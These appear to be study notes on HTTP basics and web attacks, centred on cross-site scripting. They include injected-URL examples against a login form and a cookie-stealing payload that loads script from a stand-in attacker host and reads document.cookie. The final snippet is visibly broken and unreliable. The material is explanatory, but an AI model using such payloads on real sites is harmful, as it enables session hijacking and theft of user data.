

# HTTP notes

### RSS/Atom

They are used for publish blogs and news. Both of them require XML.

### JSON

**JavaScript Object Notation** can handle false/null/true/object/array/number/digit/string. **JSON** makes data pure and can be easily accepted by JavaScript. From the beginning, **Ajax** make JSON more popular. Other programming language provides a lot of third party libraries.


## Web Attack

HTTP is too simple to be attacked. Clients, servers, apps and the resources are the targets.

#### HTTP is not Secure

Web applications are using HTTP very differently from the beginning. Nearly all websites are using things like session, encryption and other functions related to security. HTTP doesn't have these functions.

For example, SSH provides secure session managing method at the protocol level. It is very easy to create a secure service. For HTTP, even if you establish a server, if you want to provide a web application, you need to develop from the very beginning.

Thus, developers need to design the authentication system and the session managing methods by themselves to ensure the security. This means all kinds of bugs.

#### Client Can Tamper Requests

Anything that is received from the client can be rewritten by the client! Thus, the server can receive information unexpectedly.

Hackers can load attack codes in the datagram to launch attack to the Web applications. Through **URL query field**, **form**, **HTTP Header**,**Cookie**, malicious codes can be uploaded. If the application has some bugs, the internal information is not safe and the attacker may get the administrative authority.

#### Attack methods

- Active attack
  - Hackers contact the application directly and upload malicious codes. This method aims the resources, so the hacker needs to get access to these resources.
  - **SQL Injection Attack** and **OS Injection Attack**
- Passive attack
  - Hackers use trap to run malicious codes. During this process, the attacker won't attack the application directly.
  - Mode:
    1. Set a trap. This trap will send a request that has been filled by malicious codes.
    2. When the user is hacked, the user's browser and email-client will trigger this trap.
    3. The client will send HTTP requests that contain the malicious codes to the server and run it.
    4. After this, this web application will become a spring board for the hacker. This could lead to the leakage of user information (**cookie**) or the misuse of the authority of the logged user.
  - **XSS (Cross-site scripting attack)** and **CSRF(Cross-site Request Forgery)**\
  - This attack mode is of especial importance when hackers want to launch an attack to the internal internet of a company or an organization.

### Security Vulnerabilities Caused by Incomplete Output Value Escaping

Two major security strategies:

- Client authentication
- Web (server) authentication
  - Input authentication
  - Output value escaping(输出值转义)



Most of the time JavaScript is used to check the data. But the client is allowed to turn off JavaScript and tamper the data, so it is not suitable to take JavaScript as the only method to handle security issues. Keeping Client authentication is because the app can identify input errors as early as possible and enhance UI experience.

Input authentication is used to identify whether the uploaded data is offensive. This process makes sure that the uploaded data is normal.

If the output value escaping is not complete, this will trigger the malicious codes uploaded by the hacker, which could bring damage to the client.

#### XSS

Run illegal HTML tags or JavaScript codes. Dynamic HTML files can be vulnerable. The hacker writes a malicious script and when the user runs it on their own browser, they may suffer passive attack unexpectedly.

**XSS** can cause:

- Steal user information through fake PostForms.
- Exploit cookies and send malicious requests without the user's acknowledgement.
- Show fake articles and images

Example:

> http://example.jp/login?ID=yama

```html
<div class="logo">
    
</div>
<form action="http://example.jp/login" method="post" id="login">
    <div class="input_id">
        ID <input type="text" name="ID" value="yama" />
    </div>
```

> http://example.jp/login?ID="><script>var+f=document.getElementById("login");+f</script></script><span+s="

```html
<div class="logo">
    
</div>
<form action="http://example.jp/login" method="post" id="login">
    <div class="input_id">
        ID <input type="text" name="ID" value=""><script>var f=document.getElementById("login"); f</script><span s=""/>
    </div>
```

- Attack Cookie

> http://example.jp/login?ID="><script src="http://hackr.jp/xss.js></script>"

```html
<script src=http://hackr.jp/xss.js></script>
```

```javascript
var content = escape(docuemnt.cookie);
document.write("");
document.write(content);
document.write(">");
```

